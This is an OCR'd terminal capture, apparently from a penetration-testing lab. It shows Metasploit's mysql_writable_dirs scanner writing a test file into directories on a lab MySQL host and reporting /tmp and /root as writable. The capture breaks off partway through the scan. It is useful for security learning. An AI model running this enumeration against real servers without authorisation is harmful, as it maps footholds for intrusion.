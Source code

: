 ```bash
   CHOST                                 no        The local client address
   CPORT                                 no        The local client port
   ConnectTimeout       10               yes       Maximum number of seconds to establish a TCP connection
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   SSL                  false            no        Negotiate SSL/TLS for outgoing connections
   SSLCipher                             no        String for SSL cipher - "DHE-RSA-AES256-SHA" or "ADH"
   SSLVerifyMode        PEER             no        SSL verification method (Accepted: CLIENT_ONCE, FAIL_IF_NO_PEER_CERT, NONE, PEER)
   SSLVersion           Auto             yes       Specify the version of SSL/TLS to be used (Auto, TLS and SSL23 are auto-negotiate) (Accepted: Auto, TLS, SSL23, SSL3, TLS1, TLS1.1, TLS1.2)
   ShowProgress         true             yes       Display progress messages during a scan
   ShowProgressPercent  10               yes       The interval in percent that progress should be shown
   VERBOSE              false            no        Enable detailed status messages
   WORKSPACE                             no        Specify the workspace for this module

msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > exploit

[!] 192.15.56.3:3306      - For every writable directory found, a file called ZdAOtBtH with the text test will be written to the directory.
[*] 192.15.56.3:3306      - Login...
[*] 192.15.56.3:3306      - Checking /tmp...
[+] 192.15.56.3:3306      - /tmp is writeable
[*] 192.15.56.3:3306      - Checking /etc/passwd...
[!] 192.15.56.3:3306      - Can't create/write to file '/etc/passwd/ZdAOtBtH' (Errcode: 20)
[*] 192.15.56.3:3306      - Checking /etc/shadow...
[!] 192.15.56.3:3306      - Can't create/write to file '/etc/shadow/ZdAOtBtH' (Errcode: 20)
[*] 192.15.56.3:3306      - Checking /root...
[+] 192.15.56.3:3306      - /root is writeable
[*] 192.15.56.3:3306      - Checking /home...
[!] 192.15.56.3:3306      - Can't create/write to file '/home/ZdAOtBtH' (Errcode: 13)
[*] 192.15.56.3:3306      - Checking /etc...
[!] 192.15.56.3:3306      - Can't create/write to file '/etc/ZdAOtBtH' (Errcode: 13)
[*] 192.15.56.3:3306      - Checking /etc/hosts...
[!] 192.15.56.3:3306      - Can't create/write to file '/etc/hosts/ZdAOtBtH' (Errcode: 20)
[*] 192.15.56.3:3306      - Checking /usr/share...
[!] 192.15.56.3:3306      - Can't create/write to file '/usr/share/ZdAOtBtH' (Errcode: 13)
[*] 192.15.56.3:3306      - Checking /etc/config...
[!] 192.15.56.3:3306      - Can't create/write to file '/etc/config/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /data...
[!] 192.15.56.3:3306      - Can't create/write to file '/data/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /webdav...
[!] 192.15.56.3:3306      - Can't create/write to file '/webdav/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /doc...
[!] 192.15.56.3:3306      - Can't create/write to file '/doc/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /icons...
[!] 192.15.56.3:3306      - Can't create/write to file '/icons/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /manual...
[!] 192.15.56.3:3306      - Can't create/write to file '/manual/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /pro...
[!] 192.15.56.3:3306      - Can't create/write to file '/pro/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /secure...
[!] 192.15.56.3:3306      - Can't create/write to file '/secure/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /poc...
[!] 192.15.56.3:3306      - Can't create/write to file '/poc/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /pro...
[!] 192.15.56.3:3306      - Can't create/write to file '/pro/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /dir...
[!] 192.15.56.3:3306      - Can't create/write to file '/dir/ZdAOtBtH' (Errcode: 2)
[*] 192.15.56.3:3306      - Checking /Benefits...
```